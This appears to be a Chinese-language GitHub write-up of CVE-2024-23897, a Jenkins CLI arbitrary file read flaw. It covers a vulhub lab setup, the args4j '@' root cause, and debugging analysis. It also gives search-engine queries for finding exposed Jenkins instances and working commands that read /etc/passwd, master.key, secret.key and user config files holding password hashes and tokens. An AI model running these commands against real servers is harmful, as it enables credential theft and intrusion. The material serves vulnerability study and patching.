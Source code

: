 # CVE-2024-23897

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jenkins 通过 CLI 任意文件读取漏洞



## 0x00 空间搜索引擎相关查询语法

```
【FOFA】
icon_hash="1265477436"

【鹰图】
web.icon=="f49c4a4bde1eec6c0b80c2277c76e3db"

【Quake】
favicon: "f49c4a4bde1eec6c0b80c2277c76e3db"

【零零信安】
icon=f49c4a4bde1eec6c0b80c2277c76e3db
```

## 0x01 环境搭建

执行以下命令启动 Jenkins 服务器 2.441：

```jsx
git clone https://github.com/vulhub/vulhub
cd vulhub/jenkins/CVE-2024-23897
docker compose up -d
```

`http://your-ip:8080/` 服务器启动后即可通过访问Jenkins服务器。默认管理员的用户名和密码是`admin`和`vulhub`。

## 0x02 漏洞原理

Jenkins提供了一个命令行的接口，用户可以下载一个命令行客户端jenkins-cli.jar到本地，并调用该客户端来执行一些Jenkins的功能。本来是一个很常见的功能，但设计中神奇的是，用户使用jenkins-cli.jar时，命令行是传到服务端解析的，而不是在jenkins-cli.jar里解析。

这就导致了一个问题，因为Jenkins服务端解析命令行时使用了一个第三方库[args4j](https://github.com/kohsuke/args4j)，这个库实现了Linux中一个常见的功能——如果一个参数是以`@`开头，则会被自动认为是一个文件名，文件内容会被读取作为参数。

因为Jenkins是在服务端解析的命令行参数，又支持args4j的这个特性，所以造成文件读取漏洞。

要调试该漏洞，只需在Jenkins启动时设置一个环境变量“DEBUG=1”，即可开启JVM的远程调试端口。如果使用Vulhub环境，直接连接5005端口进行远程调试。

**`注意：`**如果该“允许匿名读取访问”配置已打开，则可以读取目标文件的完整内容，否则只能读取一行。

## 0x03 影响范围

```text
< 2.441
```

## 0x04 Jenkins权限系统

正常情况下，cli这个功能的权限控制方案和Jenkins默认权限方案相同。

jenkins的四种鉴权方式：

- Anyone can do anything 没有任何权限认证，匿名用户即可登录后台执行Groovy脚本
- Legacy Mode 旧鉴权模式
- Logged-in users can do anything 任意登录的用户可以做任何事，这是默认的权限选项
- Matrix-based security 细颗粒度权限控制，需要安装插件才支持这个鉴权模式

![Untitled](image/Untitled.png)

`PS：`经过测试，如果jenkins系统，关闭了匿名用户可读功能，那么大部分cli命令将无法使用，会出现"ERROR: anonymous is missing the Overall/Read permission"的错误。

## 0x04 可用的jenkins命令

**【查看单行文件内容】**

在未开启匿名访问的情况下可用命令

```python
disable-job
enable-job
help
keep-build
restart
safe-shutdown
shutdown
who-am-i
```

**【查看完整文件内容】**

**在开启匿名访问后的情况下可用命令**

```
connect-node
delete-job
delete-node
disconnect-node
offline-node
online-node
reload-job
disable-plugin  # 命令需要开启【任何人都可以做任何事】，才能使用
```

![Untitled](image/Untitled%201.png)

## 0x05 漏洞利用

### 下载Jenkins-cli工具

下载地址：http://localhost:8080/jnlpJars/jenkins-cli.jar

### 要读取的文件

- `/var/jenkins_home/users/*/config.xml` 保存所有用户的信息，包括密码、种子、Token等
- `/var/jenkins_home/secret.key` 保存Remember-Me Cookie中的一部分
- `/var/jenkins_home/secrets/master.key` 作为AES解密密钥
- `/var/jenkins_home/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac` 作为计算hmac签名时的Key

### 正式利用

**读取passwd文件内容**

```java
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/etc/passwd"
```

![Untitled](image/Untitled%202.png)

**获取Jenkins根目录**

```python
# 包含的是当前进程的环境变量
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![Untitled](image/Untitled%203.png)

```python
# 包含的是当前进程的cmd启动命令行
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/cmdline"
```

![Untitled](image/Untitled%204.png)

**读取secrets.key文件**

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![Untitled](image/Untitled%205.png)

**读取master.key文件**

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![Untitled](image/Untitled%206.png)

**读取users.xml文件**

获取用户列表和每个用户信息所在的文件目录

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/var/jenkins_hom
e/users/users.xml"
```

![Untitled](image/Untitled%207.png)

**读取config.xml文件**

config.xml文件是在admin用户所在目录下的

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/var/jenkins_home/users/admin_6181681220423834154/config.xml"
```

![Untitled](image/Untitled%208.png)

正常情况下，我们应该能拿到三个信息

- 用户密码，使用JBCript哈希编码
- 用户Token，使用sha256哈希编码
- 用户种子，这个值在Remember-Me Cookie中会用到

![Untitled](image/Untitled%209.png)

## 0x06 漏洞分析

![Untitled](image/Untitled%2010.png)

继续向下走，到了解析命令行参数位置

![Untitled](image/Untitled%2011.png)

if这里的判断代码和修复代码部分有点关联，修复部分的代码应该就是为了防止进入这个逻辑的。getAtSyntax默认是true的，因此我们进入跟入if逻辑中

```java
this.parserProperties.getAtSyntax()
```

![Untitled](image/Untitled%2012.png)

发现取了@后面的字符串作为文件名读取后作为result返回

![Untitled](image/Untitled%2013.png)

输入如下命令

```java
java -jar jenkins-cli.jar -s [http://localhost:8081/](http://localhost:8081/) -http who-am-i "@/etc/passwd"
```

再次进行调试,发现会把`/etc/passwd`内容读取出来

![Untitled](image/Untitled%2014.png)

再接着向下看，读取出来的内容作为异常抛了出来，从而达到了任意文件读取

![Untitled](image/Untitled%2015.png)
